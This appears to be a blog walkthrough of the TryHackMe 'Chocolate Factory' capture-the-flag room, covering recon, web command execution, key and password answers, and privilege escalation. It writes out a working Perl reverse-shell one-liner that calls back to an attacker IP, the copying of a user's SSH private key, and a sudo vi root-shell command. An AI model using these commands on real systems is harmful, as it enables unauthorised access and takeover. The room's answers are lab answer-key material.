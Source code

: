 ```yaml
---
title: TryHackMe Chocolate Factory
layout: post
categories:
- TryHackMe
tag: ctf, privesc, stego
image: "/assets/img/chocolate-factory.jpeg"
image_alt: chocolate-factory
---
```


A Charlie And The Chocolate Factory themed room, revisit Willy Wonka's chocolate factory!

<br>

## 1. Introduction     

Welcome to Willy Wonka's Chocolate Factory!

![golden-ticket](/assets/img/tryhackme/chocolate-factory/golden-ticket.jpg)

This room was designed so that hackers can revisit the Willy Wonka's Chocolate Factory and meet Oompa Loompa

This is a beginner friendly room!

If you have any issues / queries you can reach us through Discord or Twitter.

( Created by AndyInfosec team for the community! )

<br>


## 2. Challenges 

<br>


### 2.1 Enter the key you found!

Let's do a nmap scan.

```
$ nmap -sSV 10.10.153.7
```

![nmap](/assets/img/tryhackme/chocolate-factory/nmap.png)

A lot of ports are open.  

Let's visit the website running on `80/tcp` port. 

![home](/assets/img/tryhackme/chocolate-factory/home.png)

I see a login page. Let’s do a gobuster scan.

```
$ gobuster dir -u http://10.10.153.7/  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -x php,html,txt
```

![gobuster](/assets/img/tryhackme/chocolate-factory/gobuster.png)

We found a few php files. First, let's look at `home.php`.

![php](/assets/img/tryhackme/chocolate-factory/php.png)

We can run commands on this page. Let's connect with burp suite. Capture the page and send it to the repeater.

![ls](/assets/img/tryhackme/chocolate-factory/ls.png)

Let's look at the files in the directory in order, of what we will find.

 - _**`index.php.bak`**_ 

    I don't see anything significant here.

    ![bak](/assets/img/tryhackme/chocolate-factory/bak.png)

 - _**`key_rev_key`**_ 

    This file is probably a script because the cat command doesn't work.

    ![key-rev-key](/assets/img/tryhackme/chocolate-factory/key-rev-key.png)
    
    Let's back to the website and download the key-rev-key file. [http://10.10.153.7/key_rev_key](http://10.10.153.7/key_rev_key)

    ![cat](/assets/img/tryhackme/chocolate-factory/cat.png)

    Let's try. 

    ```
    $ chmod +x key_rev_key
    $ ./key_rev_key 
    ```

    ![try](/assets/img/tryhackme/chocolate-factory/try.png)

    ```
    $ strings key_rev_key
    ```

    ![strings](/assets/img/tryhackme/chocolate-factory/strings.png)

    Let's try the name `laksdhfas`.

    ![key](/assets/img/tryhackme/chocolate-factory/key.png)

 - _**`validate.php`**_ 

    We found the username and password for the website. 
    
    ![validate](/assets/img/tryhackme/chocolate-factory/validate.png)


**`Answer: b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='`**

<br>

### 2.2 What is Charlie's password?

**`Answer: cn7824`**

<br>

### 2.3 Change user to charlie

Now, we can execute a reverse-shell command on home.php. First, let's go to the [pentestmonkey's cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). You can try all of them. 

Perl, python, and netcat are working.

![shell](/assets/img/tryhackme/chocolate-factory/shell.png)

```
perl -e 'use Socket;$i="10.8.86.168";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

First, let's setup a netcat listener. 

```
$ nc -nlvp 4444
```

After copying and pasting. 

![reverse](/assets/img/tryhackme/chocolate-factory/reverse.png)

We are inside.

![inside-first](/assets/img/tryhackme/chocolate-factory/inside-first.png)

Now, we can change the user to charlie.

We found a RSA key in charlie's directory

```
$ cat /home/charlie/teleport
```

![rsa](/assets/img/tryhackme/chocolate-factory/rsa.png)

Let's connect to charlie ssh.

First, create an id_rsa file on your own machine and copy rsa key on the target machine, and paste it into the id_rsa file.

```
$ chmod +x id_rsa
$ ssh -i id_rsa charlie@10.10.153.7
```

![ssh](/assets/img/tryhackme/chocolate-factory/ssh.png)

And we are inside.

<br>

### 2.4 Enter the user flag

Now, let's get the user flag.

![user-flag](/assets/img/tryhackme/chocolate-factory/user-flag.png)

<br>

### 2.5 Enter the root flag

Now, we checking the sudo privileges.

```
$ sudo -l
```

![sudo-l](/assets/img/tryhackme/chocolate-factory/sudo-l.png)

We can get root privileges using vi. I'm going to [gtfobins](https://gtfobins.github.io/gtfobins/vi/) and see what I can do with vi. 

![gtfobins](/assets/img/tryhackme/chocolate-factory/gtfobins.png)

Now, we can root privilege using this command.

```
sudo vi -c ':!/bin/sh' /dev/null
``` 

![privesc](/assets/img/tryhackme/chocolate-factory/privesc.png)

We are inside. Let's get the root flag.

![root-flag](/assets/img/tryhackme/chocolate-factory/root-flag.png)

<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.

<br>
